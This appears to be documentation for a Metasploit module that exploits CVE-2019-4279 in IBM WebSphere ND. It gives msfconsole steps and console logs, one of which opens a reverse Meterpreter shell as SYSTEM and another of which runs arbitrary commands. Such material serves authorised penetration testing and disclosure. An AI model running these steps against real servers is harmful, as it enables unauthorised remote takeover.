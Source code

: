 ## Description
This module exploits the lack of proper authentication checks in IBM Websphere Application Server ND that allows for the execution of an arbitrary command and upload of an arbitrary file as SYSTEM. The module serializes the required Java objects expected by the IBM Websphere server.

The vulnerability was identified by @rwincey (b0yd) of [Securifera](https://www.securifera.com/) and was assigned [CVE-2019-4279](https://www-01.ibm.com/support/docview.wss?uid=ibm10883628).


## Vulnerable Application
The module affects [IBM Websphere Application Server Network Deployment](https://www.ibm.com/support/knowledgecenter/en/SSAW57/mapfiles/product_welcome_wasnd.html). The agent is installed on servers with the network deployment feature and listens on TCP port 11002,11004, or 11006. The vulnerability affects versions up to 9.0.0.11.

## Verification Steps
To use this exploit you will need access to IBM Websphere Application Server Network Deployment.

1. Install the IBM Websphere Application Server Network Deployment on a host.
2. Ensure that the service is running and listening on TCP port 11002, 11004, or 11006.
3. Launch `msfconsole`.
4. Load the module `use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce`.
5. Set the remote host ip to execute `set RHOSTS 192.168.162.133`.
6. Set the command to execute `set CMD "calc.exe"`.
7. Run the exploit `exploit`.

The result should be that calc.exe is executed on the target machine.

## Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell). 

```
msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Sending payload: FOAFKqEH.exe
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.136:4444 -> 172.22.222.200:50575) at 2019-05-30 06:10:39 -0500
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
```

### Target 1: CMD
This target isn't a formal target. It was added to allow a user to execute commands entirely through the IBM Websphere Application Network Deployment Server remote administration feature. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.

```
msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set target 1
target => 1
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set payload cmd/windows/generic 
payload => cmd/windows/generic
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set cmd "ping -n 10 172.22.222.200"
cmd => ping -n 10 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > run

[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Executing command: ping -n 10 172.22.222.200
[*] 172.22.222.200:11006 - Sending payload: uMuOTPtG.bat
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.
[*] Exploit completed, but no session was created.
```
